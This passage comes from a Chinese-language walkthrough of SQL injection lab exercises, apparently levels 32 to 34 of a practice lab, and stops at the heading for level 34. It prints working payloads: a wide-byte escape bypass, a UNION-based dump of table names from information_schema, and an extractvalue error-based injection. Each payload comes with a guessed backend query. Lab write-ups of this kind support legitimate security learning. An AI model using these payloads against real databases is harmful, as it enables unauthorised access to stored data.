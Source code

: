 



payload:

```
?id=-1%bf' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479),3%23
```

> 此处由于单引号被转义，所以表达`where`子句就用十六进制表示即可







猜测后端sql语句：

```
select * from users where id='前端传来的数据' limit 0,1;
```







#### 33.

> 感觉绕过空格后面的题都是奇奇怪怪的

此题不知为什么感觉和32题完全一摸一样。而且title都一样，进入33题还会有一个跳转。





payload:

```
?id=1%bf' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479)))%23
```







猜测后端sql语句：

```
select * from users where id='前端出来的数据' limit 0,1;
```



不过貌似看标题，此题是绕过加号。

不懂什么意思，如果加号表示空格的话。这题`%20`页能正常表示空格。绕过的是加号的话`%2b`也能正常的表示加号。

但是加号本身却被过滤。`url`里面输入`+`加号被过滤掉了





#### 34.	** post
